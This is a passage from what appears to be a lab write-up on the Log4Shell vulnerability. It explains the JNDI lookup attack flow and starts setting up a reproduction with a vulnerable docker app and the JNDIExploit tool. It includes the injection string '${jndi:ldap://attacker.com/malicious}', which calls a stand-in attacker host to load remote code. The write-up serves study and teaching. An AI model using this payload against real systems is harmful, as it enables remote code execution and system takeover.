 2. JNDI Lookup via Malicious Server:
   - When Log4j processes this log message, it interprets the `${jndi:ldap://attacker.com/malicious}` as a JNDI lookup.
   - The vulnerable Log4j instance attempts to make a network request to `ldap://attacker.com/malicious`.

3. Malicious LDAP Server:
   - The attacker controls the LDAP server at `attacker.com`.
   - When the vulnerable system performs the JNDI lookup, the attacker’s server can respond with a malicious payload, usually a class that can execute arbitrary code when loaded by the victim's JVM.

4. Remote Code Execution:
   - The attacker’s LDAP server might return a reference to a Java class that the victim’s application loads.
   - This class can contain a payload to run arbitrary commands, giving the attacker remote control over the affected system.

So in short, the summary of the attack flow would be:
1. An attacker injects a malicious JNDI lookup into a loggable field (e.g., HTTP headers).
2. Log4j processes this string and attempts to resolve the JNDI lookup.
3. The lookup connects to the attacker-controlled LDAP server.
4. The LDAP server sends a malicious class, which is executed by the victim’s application.
5. This leads to remote code execution, which can allow the attacker to take full control of the system.

---

### CVE Reproduce

#### Setup

- Kali Linux as attacker machine and Ubuntu installed with Java 8 environment
- [log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) docker by christophetd
- [JNDIExploit](http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream) to setup a malicious LDAP server

#### Exploitation Step

1. On Kali Linux, run the docker:
   ```docker
   docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
   ```